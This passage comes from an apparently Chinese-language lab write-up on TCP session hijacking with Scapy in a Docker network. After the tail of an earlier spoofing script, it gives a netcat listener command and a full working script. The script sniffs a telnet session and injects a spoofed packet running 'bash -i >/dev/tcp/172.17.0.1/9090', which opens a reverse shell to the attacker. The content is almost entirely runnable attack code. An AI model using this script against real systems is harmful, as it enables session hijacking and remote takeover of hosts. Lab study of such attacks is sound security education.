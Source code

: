         pkt = ip/tcp/data
        send(pkt,verbose=0)
        ls(pkt)
        quit()

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    sniff(filter=f, prn=spoof,iface='docker0')

### 利用回话劫持进行反弹shell

保证客户机和服务器已经进行了telnet连接

在攻击机上开启 监听端口

    nc -lvp 9090

在攻击机上运行该脚本

    #!/usr/bin/python3
    from scapy.all import *

    SRC  = "172.17.0.3"
    DST  = "172.17.0.2"
    PORT = 23

    def spoof(pkt):
        old_ip  = pkt[IP]
        old_tcp = pkt[TCP]

        #############################################
        ip  =  IP( src   = old_ip.src,
                dst   = old_ip.dst
                )
        tcp = TCP( sport = old_tcp.sport,
                dport = old_tcp.dport,
                seq   = old_tcp.seq,
                ack   = old_tcp.ack,
                flags = "A"
                )
        data = "bash -i >/dev/tcp/172.17.0.1/9090 2>&1 0<&1\r\x00"
        #############################################

        pkt = ip/tcp/data
        send(pkt,verbose=0)
        ls(pkt)
        quit()

    f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
    sniff(filter=f, prn=spoof,iface='docker0')
